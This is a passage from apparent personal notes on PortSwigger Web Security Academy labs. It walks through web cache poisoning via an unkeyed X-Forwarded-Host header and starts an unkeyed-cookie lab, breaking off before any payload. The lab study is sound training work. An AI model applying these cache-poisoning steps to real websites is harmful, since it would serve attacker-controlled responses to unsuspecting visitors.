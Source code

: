 ```bash

GET /?cb=1234 HTTP/1.1

To

GET / HTTP/1.1

Change:

X-Forwarded-Host: check.com

To

exploit-0ad500300419a363c0ec7103014a0001.web-security-academy.net

Send
Ensure the response includes:

X-Cache: hit

Go to:

https://0afc008604ffa3ecc08371a7007400ee.web-security-academy.net/

Refresh the page

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220603011922.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220603012804.png)

### Web cache poisoning with an unkeyed cookie
```bash

# This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(1) in the visitor's browser. 

Go to: HTTP history 
Find:

GET / HTTP/1.1

Note the cookie parameter:

Cookie: session=jql43W1505VvJoWw3x54qw13xgUH0Q6M; fehost=prod-cache-01

Response:

<script>
	data = {
		"host":"0a9c00110483decbc0288a9e00e300d9.web-security-academy.net",
		"path":"/",
		"frontend":"prod-cache-01"
	}
</script>

Send to repeater

Change:

GET / HTTP/1.1
```